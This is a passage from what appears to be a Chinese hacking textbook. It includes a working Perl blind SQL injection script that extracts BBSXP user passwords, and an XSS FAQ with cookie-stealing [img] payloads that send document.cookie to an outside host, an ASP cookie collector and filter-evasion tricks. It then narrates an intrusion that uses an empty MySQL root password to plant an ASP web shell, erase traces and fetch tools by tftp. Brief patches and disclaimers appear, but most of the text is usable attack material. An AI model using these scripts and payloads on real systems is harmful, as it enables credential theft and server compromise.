$port=$opt_p||80;
$way=$opt_w;
$user=$opt_u;

print "\nPlease wait...\n\n";

# 推算用户密码长度
@dic=(0...100);
for ($i=0;$i<@dic;$i++)
{
    $username=$user."' and ( len(userpass)= ' $dic[$i]' )and '1";
    $request = "GET $way?menu=Check&username= $username HTTP/1.0\r\n"
             . "Host: $host\r\n"
             . "Cookie: eremite=0;\n\n";  # 注意这行不能少
    print "$dic[$i],";
    @in = sendraw($request);
    @num=grep /已经有用户使用/, @in;
    $size=@num;
    if ( $size > 0 ) {   # 如返回包含“已经有用户使用”，表示成功
        print "\n\nSuccessful, The length of the password is $dic[$i].\n\n";
        $lenpwd=$dic[$i];
        last;
    }
}

# 破解用户密码
for ($j=1;$j<=$lenpwd;$j++)
{
    @dic11=(0..9);
    @dic12=(a..z);
    @special=qw(' ~ ! @ # $ % ^ & * \( \) _ + = - { } [ ] ; " : < > ? | . , / \\);
    @special2=qw( ` ~ ! . # ￥ % …… — * ( ) —— + - = { } [ ] : “ ” ; ， 《 》 ? | 。 、 / 、 〈 〉 ‘ ’ );
    @dic=(@dic11,@dic12,@special,@special2);  # 包含常用字符的密码小字典
    # 一个接一个的推测，直到成功
    for ($i=0;$i<@dic;$i++)
    {
        $key=$pws.$dic[$i];
        $username=$user."' and left(userpass,$j)='".$key."' and '1";
        $request = "GET $way?menu=Check&username=$username HTTP/1.0\r\n"
                 . "host: $host\r\n"
                 . "Cookie: eremite=0;\n\r\n";
        print "$dic[$i] ";
        @in = sendraw($request);
        @num=grep / 已经有用户使用 /, @in;
        @num1=grep / 操作符丢失 /, @in;
        $size=@num;
        $size1=@num1;
        if ($size > 0) {   # 如返回包含“已经有用户使用”，表示成功
            $th=$j. th;
            print "\nSuccessful, The $th word of the password is $dic[$i] \n";
            $pws=$pws.$dic[$i];
            last;
        }
        elsif ($size1 > 0) # 出现错误后退出程序
        {
            $th=$j. th;
            print "\nSuccessful, The $th word of the password is $dic[$i] \n\n";
            print "                ☆☆☆☆ Attention ☆☆☆☆                \n";
            print "Something wrong, i can' t go on, so you should crack it yourself! Poor...\n";
            exit 0;
        }
    }
}

# 几个特殊字符转换回来
$pws=~s/\%2b/\+/ig;
$pws=~s/\%25/\%/ig;
$pws=~s/\%26/\&/ig;

print "\n\nSuccessful, the full password of $user is $pws.\n";

# 用法函数
sub usage {
    print qq~
Usage: $0 -h <host> [-p <port>] --w <way> --u <user>
-h   =hostname you want to crack
-p   =port 80 default
-w   =the path of the weak file
-u   =the user you want to crack

Eg: $0 -h www.target.com -p 80 -w /bbsxp/register.asp -u root
~;
exit;
}

```

```
perl
# 发送请求的函数
# thanx rfp<rfp@wiretrip.net>'s sendraw
sub sendraw {
    my ($request) = @_;
    my $target;
    $target = inet_aton($host) || die("inet_aton problems");
    socket(S, PF_INET, SOCK_STREAM, getprotobyname('tcp')) || die("Socket problems\n");
    if(connect(S, pack "SnA4x8", 2, $port, $target)) {
        select(S);
        $| = 1;
        print $request;
        my @in = <S>;
        select(STDOUT);
        close(S);
        return @in;
    }
    else {
        die("Can't connect...\n");
    }
}

```

#### 四、临时解决方法

由于漏洞涉及到的文件比较多，这里不可能一一写出补救代码，大家最好到BBSXP官方站点下载更新版本，1.65在一定程度上解决了一些问题。解决方法实际上就是对用户可能提交的单引号进行限制或过滤，举个例子，在setup.asp文件中：

找到语句

```
vb
if Request.Cookies("username")<>"" then

```

在其后加上

```
vb
if instr(Request.Cookies("username"), "'")>0 or instr(Request.Cookies("username"), "’")>0 then
    error("<li>非法操作")
end if

```

后记：BBSXP还存在着其他一些问题，有兴趣的朋友可以看看 :-）。今天我们在这里对这些文件进行分析，仅出于技术交流的目的。其实，几个月前本文作者就已经发现了这些漏洞，我们之所以在论坛作答做好更新版本之后才公布这个漏洞，也正是为了大多数论坛的安全着想，希望大家做好安全防范措施。任何人不得用本文所述漏洞及方法攻击他人网站，否则后果自己承担哦！

# # 4.19 跨站攻击问答FAQ

菜鸟：前几天，中国浪客联盟的站长欲望之翼，利用跨站攻击在小榕的论坛上获取了很多人的密码，听说就是用你写的一个ASP脚本？

Lcx：这个ASP脚本程序很简单，如果你懂得跨站攻击的原理，懂一点点ASP知识的话，你就能写出这个ASP程序。

菜鸟：什么是跨站攻击？能否简单说一下？

Lcx：按我个人了解的讲一下吧。在国内，我看到最早的跨站攻击资料是2000年当时十五岁的初中生小铭在网上贴了一篇文章《bbs3000存在的安全隐患》，提到可以在ubb（论坛里常用的一种代码，可以在论坛贴子里起到简单的html效果）嵌入图像代码中写入file://con/con，引起windows98用户访问含有此代码的贴子时造成死机。到2002年，红色警戒小组将服务器网页程序没有过滤或转换用户提交的html代码而形成的漏洞归纳为跨站漏洞，并在此基础上将其内涵延伸从而正式系统定义了跨站攻击的漏洞起源、漏洞成因、漏洞危害及利用方式。小铭提到的bbs3000存在的安全隐患，就是跨站攻击的一个方法了。此时，红色警戒小组已经解散，但他们的旧版网站还在，访问url是http://c4st.51.net。如果你有兴趣系统学一下跨站攻击，可以登录他们的网站，里边有丰富的跨站资料。

菜鸟：我常上论坛，我懂得ubb代码，为什么在[img][/img]里写入file://con/con，就会引起造访者死机呢？

Lcx：在一些论坛里ubb代码的[img]部分转换为html时，[img]http://ip/x.jpg[/img]会转换成。学过html的都知道，里可以直接写入javascript语句。如果你写入[img]file://con/con[/img]，转换成html时变成，由于Windows 98的自身bug，这条语句就会引起Windows 98用户蓝屏。

菜鸟：我好像明白了，你可以在[img][/img]之间写入恶意代码，这就是跨站攻击吧？

Lcx：只能说是跨站攻击里的一个比较重要的入侵方法。

菜鸟：能否实例给我演示一下跨站攻击的这个比较重要的入侵方法？我想弄明白欲望之翼是如何得到别人密码的。我比较菜，你最好图文并茂地给我讲解一下呀。

Lcx：好吧，我在网上四处找了找，终于找到了一个有漏洞的bbs3000论坛，这个论坛的版本比较低，人烟稀少，url是http://www.0123x.com/cgi-bin/bbs3000/list.cgi。我就拿它开刀。我注册了一个id：www，密码是wwwwwwww；然后发了一个帖子，内容是[img]javascript:alert(document.cookie)[/img]，然后访问此帖子，会发生什么呢？如图4-19-1所示：

图1中弹出一个对话框，显示的是用户名和密码。这个对话框，也就是www用户在此论坛里的cookie。Bbs3000论坛用户的密码是明文保存在cookie里的。现在无论谁看到这个帖子，都会弹出自己的cookie。现在，我将此贴子进一步修改一下，见图4-19-2：

我写的代码是：

```
\n[img]javascript:window.open('http://www.netsill.net/lcx/info.asp?msg='+document.cookie)[/img]\n
```

其中http://www.netsill.net/lcx/是我网站空间的一个目录，info.asp是我写的一个ASP脚本用于收集msg后边跟的参数，而参数我们指定的是document.cookie，也就是访问此贴用户的cookie。

Info.asp的代码是：

[PAGE 146]



图4-19-1



图4-19-2

```
asp
<%
testfile=Server.MapPath("lcx.txt")
msg=Request("msg")
set fs=server.CreateObject("scripting.filesystemobject")
set thisfile=fs.OpenTextFile(testfile,8,True,0)
thisfile.WriteLine(""&msg&"")
thisfile.close
set fs = nothing
%>

```

[PAGE 147]

这样，所有访问者的cookie都会收集在lcx.txt这个文件里。此时，用户再次访问这个帖子时会发生什么？见图4-19-3：



图4-19-3

弹出一个页面，这个info.asp程序起作用了。再看看我的网站空间里lcx.txt收集到cookie没有。



图4-19-4

我们以www的id访问此贴，果然在lcx.txt里收集到了www的用户名和密码。如果论坛管理员来看此贴呢？我想后果你清楚的。

菜鸟：方法我是看懂了。不过，你的方法太明显了呀，谁也会发现弹出了一个收集cookie的窗口。

Lcx：我是为了你看明白图像才这样做的。我们完全可以将info.asp代码改造一下，使这个弹出窗口不可见。像可以在info.asp代码最下边加上这几行：

```
html
<script language=vbscript>
window.location.href="http://sohu.com"
</script>

```

这样弹出的收集cookie的info.asp窗口就会自动转到sohu.com。当然，如何隐藏你的意图，那就看你写这个info.asp的水平了，方法有很多的。

这个info.asp和有一个同样作用的info.php在我网站里都有下载，地址：http://smallhome.51.net/lcx/wdb/upload/forum1_f_632_1051272537.rar

菜鸟：我学会了，去测试了很多论坛，为什么有的成功，有的不成功？怎样才能使成功率高一点？

[PAGE 148]

# 代码攻击精粹

Lcx：这就涉及到跨站技巧的问题。像大部分论坛，都过滤了javascript这个字符。有个小技巧是可以利用的，可以在论坛发的贴里将javascript写成ASCII码。像可以写成“&#x6a;”再如a，可以写成“&#x61;”，你可以找一个ASCII码表对照修改一下，这样成功率能高一点。还有，你要学会分析一下对方的ubb代码。像动网5.0以下论坛，你在[img]里写入和bbs3000一样的代码就不会成功，因为动网5.0以下，ubb代码http://这个地方当成图片地址了，结构提交的代码被分成了两段：

```
javascript:window.open('和http://www.netsill.net/lcx/info.asp?msg='+document.cookie);
```

以至于我们提交的代码丧失了功能。难道就不能改式了吗？当然不是，我们可以变换种方式提交，代码如下：

```
[img]javascript:window.open('&##x68;tt&##x70;://www.netsill.net/lcx/info.asp?msg='+document.cookie);[/img]
```

看到区别了吧，这段代码把http中的h和p转换成了ASCII码html格式&#x68;和&#x70;，提交后，论坛并没有找到http，所以我们提交的代码就不会分家了，达到了攻击的目的。总之，还是要学会多多分析多动脑筋。另外，也不是所有论坛的cookie都存有用户名和密码的。

菜鸟：跨站攻击是不是就是在[img]里写代码呀？

Lcx：一开始就和你说不是了呀。它的危害有很多，像伪造页面信息、拒绝服务攻击打开无穷窗口、与其他漏洞结合，修改系统设置，查看系统文件，执行系统命令等等。这些入侵方法，都等侍你用聪明才智来学习和进一步发现呢。当然，我们重在这里讲的是如何利用[img]做文章，这也是跨站攻击一个有趣而且很重要的攻击方法。至于如何利用其他方法入侵，你上http://cs4t.51.net去学习了解一下吧，有许多跨站文章讲得都很清楚，限于篇幅，我就不讲述了。

菜鸟：说了这么多，我也很害怕被跨站攻击，如何预防它呢？

Lcx：如果你开论坛或办网站的话，最重要的是要在表单输入处过滤掉一些敏感字符。像javascript/<script>/'/;/&/#等等，当然前提是你的网页程序还要正常运行。作为个人用户，老生常谈了，不要轻易打开一些不明url，要将自己的信箱、论坛、QQ等资料的密码设得都不一样，如果一旦资料或密码被盗，避免引起连锁反应，所有资料和密码都被别人获得。

菜鸟：好像我对跨站攻击有了一点兴致，学会了一种攻击方法。

Lcx：hehe，我也就会这么多。

[PAGE 149]

# # 第5章 数据库攻击与防范

# ## 5.1 从入侵角度看Windows 2000的安全性

首先我要跟大家说明的是：入侵别人主机是非法的。以下所述的只是对朋友所管辖服务器的合法远程渗透，这是我第一篇关于入侵的文章，也是最后一篇。

某天晚上在IRC跟朋友们闲聊的时候，一个老朋友说帮他看看他的服务器的安全性，然后给出URL是abc.target.net。刚好那天是星期五，已经下班了，也比较闲，那就看看他们的服务器安全做的如何吧。

随后用nmap扫描了一下abc.target.net，发现开的端口挺多的，看来没有安装防火墙或做TCP/IP过滤。从IIS版本判断是Windows 2000的服务器。IIS默认的虚拟目录都删除掉了，并且诸如idq等映射都删除掉了，没什么好利用的。一看3306端口也开着，是mysql默认监听的端口，就用我的mysql客户端尝试连接了一下，mysql内置账号root的密码竟然为空，那么我们就可以利用这个漏洞来做点什么了。如果是MS-SQL数据库的话就好办啦，直接可以用xp_cmdshell来运行系统命令。

Ok!先用nmap扫描一下，扫描结果如下：

```
text
25/tcp open smtp
53/tcp open domain
80/tcp open http
110/tcp open pop-3
389/tcp open ldap
1002/tcp open unknown
3306/tcp open mysql

```

从80端口返回信息的显示WEB Server是IIS5.0，那么操作系统自然是windows 2000服务器了。从开放的端口来看，它要么是安装了防火墙，要么是做了TCP/IP过滤，呵呵，比abc.target.net有意思多了。从25和110端口返回的数据来看，他们用的邮件服务器是IMail 6.04，没什么可利用的。IIS上面网管做了安全配置，默认的虚拟目录和ISAPI映射也没有，这也没什么好利用的。只剩下最后一个突破口---3306了，习惯性的用我的mysql客户端连接试试：

```
text
F:\cmd>mysql -u root -h www.target.net
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 3038 to server version: 3.23.21-beta
Type 'help;' or '\h' for help. Type '\c' to clear the buffer
mysql>

```

呵呵，不好意思，看来网管没有给mysql内置账号root设置一个密码，是默认的空密码，那么我们就可以利用这个漏洞来做点什么了。如果是MS-SQL数据库的话就好办啦，直接可以用xp_cmdshell来运行系统命令。命令，但是可惜的是mysql没有类似MS-SQL那样的扩展存储过程。

现在我们可以利用这个漏洞来做三件事情：

+   1. 搜索mysql数据库里面的内容，看能不能找出一些有用的敏感信息，我找了一会儿就不想找了，呵呵。
2. 以启动mysql服务账号的权限[通常都是LOCAL_SYSTEM]读取服务器上的文件，当然前提是知道文件的物理路径。
3. 以启动mysql服务账号的权限往服务器上写文件，前提是这个文件要不存在的，就是说不能覆盖文件，只能新建。

如果我们知道IIS主目录的物理路径的话，我们就可以往上面写一个ASP上去，然后通过ASP来执行系统命令。怎么得到IIS目录的物理路径呢？天知道！

让我们先在mysql默认数据库test中建一个表tmp，这个表只有一个字段str，类型为TEXT，如下：

```
sql
mysql> use test;create table tmp (str TEXT);
Database changed
Query OK. 0 rows affected (0.05 sec)
Mysql>

```

然后凭着自己做系统管理员的直觉，开始猜测IIS主目录的物理路径，c:\inetpub\wwwroot、c:\www、c:\wwwroot、c:\inetpub\web、d:\web、d:\wwwroot，都不对，55555。大概猜测到第10次，我的mysql客户端回显信息如下：

```
sql
mysql> load data infile "d:\\www\\gb\\about\\about.htm" into table tmp;
Query OK. 235 rows affected (0.05 sec)
Records: 235 Deleted: 0 Skipped: 0 Warnings: 0
Mysql>

```

哈哈哈，猜中了，IIS主目录的物理路径是d:\www，因为上面的文件的虚拟路径是http://www.target.net/gb/about/about.htm，看来我得到一个guests组权限的shell了，也许是IUSR_COMPUTERNAME，也许是IWAN_COMPUTERNAME，那要看他的IIS的设置了，默认是后者。

接下来我们就可以往d:\www\gb\about里面写一个ASP文件进去，然后通过http://www.target.net/gb/about/cmd.asp来执行系统命令了。然后在网上找来一个现成的cmd.asp，懒的自己去写了：)。Cmd.asp如下：



由于往mysql数据库中插入数据的时候，会过滤特殊字符什么的，例如双引号之类的，特别麻烦。各位留意没有，上面的ASP语句中，都是两个双引号一起的，这样才能写进去，原来是一个双引号的。然后我在数据库中再建一个表：

```
sql
mysql> use test;create table cmd (str TEXT);
Database changed

```

[PAGE 151]

```
Query OK, 0 rows affected (0.05 sec)
```

然后用如下语句，一句一句把上面的ASP写进去：

```
mysql> insert into cmd values ("一行一行的asp代码");
```

为什么不全部一起写进去呢？呵呵，换行后，一会儿导出的文件就会有特殊字符了，asp就不能正常运行了，只能辛苦点一行一行写了。事后发现可以先写个x.sql文件来自动执行，具体见bbs.nsfocus.com NT版里coolweis贴的一篇帖子，有兴趣的自己去search吧。接着我们把asp文件从数据库中导出到服务器上：

```
mysql>select * from cmd into outfile "d:\\www\\gb\\abou\\cmd.asp";
```

然后把我们刚才建的表都删除掉，毁尸灭迹：

```
mysql> use test; drop table tmp; drop table cmd;
```

ok!我们得到一个shell了，虽然权限不高，但毕竟已经向取得admin权限迈出一大步了。因为对数据库不熟悉，做这个asp文件可花了我不少时间哦。现在我们利用这个shell来收集系统信息，尝试取得admin权限。

<1>先看一下系统文件权限设置如何：

```
c:\ Everyone:(OI)(CI) F

d:\ \xxx:(OI)(CI)(DENY)（特殊访问）：
DELETE
READ_CONTROL
WRITE_DAC
WRITE_OWNER
STANDARD_RIGHTS_REQUIRED
FILE_READ_DATA
FILE_WRITE_DATA
FILE_APPEND_DATA
FILE_READ_EA
FILE_WRITE_EA
FILE_EXECUTE
FILE_DELETE_CHILD
FILE_READ_ATTRIBUTES
FILE_WRITE_ATTRIBUTES

Everyone:(OI)(CI) F
```

看来我们现在就可以读写硬盘上的任何文件了，现在就可以改他的首页了，但这样做没意思，对不对，我们的目标是取得admin权限，呵呵。

<2>然后搜索一下硬盘上都有哪些什么文件：

```
c:\Program Files 的目录下有两个比较有意思的文件，
2000-12-19 13:10  Serv-U
2001-01-20 22:43  绿色警戒
```

把Serv-U里面的用户和密码读出来看看后，没有什么用处，然后进入绿色警戒目录看看，呵呵，除了log外，什么都没有，呵呵。

<3>再看看都有哪些用户：

```
Guest  IUSR_SERVER_1  IUSR_SERVER-2  IWAM_SERVER_1  IWAM_SERVER-2  tanyi  TsInternetUser
```

[PAGE 152]

管理员有tanyi 和target\Domain Admins，看来这台机器是他们域中的一台服务器。开始本来想给tanyi下一个套，在他的启动目录里放一个程序，但后来看到这个帐号已经几个月没登陆了，就放弃了。

+   - `<4>` 看看启动了那些服务，没什么特殊的。

+   - `<5>` 看看网络状况，这几个比较有意思：

```
TCP 0.0.0.0:21 0.0.0.0:0 LISTENING
TCP 0.0.0.0:119 0.0.0.0:0 LISTENING
TCP 192.168.1.3:3389 0.0.0.0:0 LISTENING
```

看来有启动了终端服务，只绑在内网网卡上，而且外网网卡上做了TCP/IP过滤，那么我们就来

+   - `<6>` 看看网卡设置信息：

```
Ethernet adapter 本地连接:
Connection-specific DNS Suffix . :
Description . . . . . . . . . . . : Realtek RTL8139 (A) PCI Fast
Ethernet Adapter
Physical Address. . . . . . . . . : 00-E0-4C-68-C4-B2
DHCP Enabled. . . . . . . . . . . : No
IP Address. . . . . . . . . . . . : 192.168.1.3
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . :
DNS Servers . . . . . . . . . . . :
Ethernet adapter 本地连接 2:
Connection-specific DNS Suffix . :
Description . . . . . . . . . . . : Realtek RTL8139 (A) PCI Fast
Ethernet Adapter #2
Physical Address. . . . . . . . . : 00-E0-4C-68-B8-FC
DHCP Enabled. . . . . . . . . . . : No
IP Address. . . . . . . . . . . . : xxx
Subnet Mask . . . . . . . . . . . :
Default Gateway . . . . . . . . . :
```

经过上面的些步骤，对这台服务器的设置情况就有了一个大概的了解。如何取得admin权限？netdde? pipeupadmin? 呵呵，无法利用，没有可利用的可以登陆的用户。下套？等到什么时候，呵呵。这次入侵是在2001/4，那时候好多漏洞都还没有公布呢

让我们来看看这个系统都打了些什么补丁。怎么查看？呵呵，打了补丁后，信息都会存贮在注册表中，查询注册表中的这个键值就行了：`HKLM\Software\Microsoft\Windows NT\CurrentVersion\hotfix`，这样的话，我们得上传一个reg.exe[MS Resource Kit中的命令行注册表操作工具]到服务器里面，我们才能操作他的注册表。开始我想用先写一个ftp脚本，然后ftp -s:cmd.txt让他到我的服务器来下载，但结果失败了，后来才想起他做了TCP/IP过滤，被动模式传不过去，主动模式也许可以。烦不了了，用基于UDP协议的tftp来传输文件吧。

我先在我的服务器上安装了一个Cisco TFTP Server，然后在目标机器上运行`tftp -I www.ey4s.org GET reg.exe`，呵呵，传输过去咯。然后运行：

```
REG QUERY "HKLM\Software\Microsoft\Windows NT\CurrentVersion\hotfix"
```

返回数据如下：

[PAGE 153]

+   Listing of [Software\Microsoft\Windows NT\CurrentVersion\hotfix]

- [Q147222]==>这个不知道是什么东西，好象默认2k机器上都有
- [Q269862]==> Microsoft IIS Unicode解码目录遍历漏洞！
- [Q277873]==> Microsoft IIS CGI文件名检查漏洞！

==>和后面的说明是我加上去的，不是注册表中的。看来管理员不太勤快啊，只安装了SP1和SP2的两个HotFixs。

到了这一步，大家想到怎么取得admin权限了吗？你一定也想到了，他的机器开了TermService服务，但windows 2000登陆验证可被绕过的漏洞没有安装补丁，此补丁为Q270676_W2K_SP2_x86_CN.EXE。由此看来，管理员只是删除了帮助法文件，而没有打补丁。用 dir c:\winnt\help\win*验证一下，果然没有熟悉的输入法帮助文件。敌人没有输入法，我们帮他造，hoho~别忘了我们可以在任何地方写文件哦。

嘿嘿，咱们也别高兴的太早了，别忘了他的机器做了TCP/IP过滤哦，我们是没有办法连接到他的3389端口的。不要着急，不要着急，让我们先来看看他的TCP/IP过滤的设置情况。怎么看呢？老办法，查看注册表里面的键值啦。用刚才的reg.exe查询

```
<1>先运行这个
text
reg QUERY "HKLM\System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces"
Listing of
[System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces]
[{4B41CFFB-4A20-42F8-9087-A89FE71FD8F4}]
[{612A3142-DB85-4D4E-8028-81A9EB4D6A51}]

```

```
<2>reg QUERY
text
"HKLM\System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\
{4B41CFFB-4A20-42F8-9087-A89FE71FD8F4}"
Listing of
[System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\
{4B41CFFB-4A20-42F8-9087-A89FE71FD8F4}]
MULTI_SZ IPAddress ;
MULTI_SZ TCPAllowedPorts 25,53,80,110,3306;
MULTI_SZ UDPAllowedPorts 0;
MULTI_SZ RawIPAllowedProtocols 0;

```

```
<3>reg QUERY
text
"HKLM\System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\
{612A3142-DB85-4D4E-8028-81A9EB4D6A51}"
Listing of
[System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\
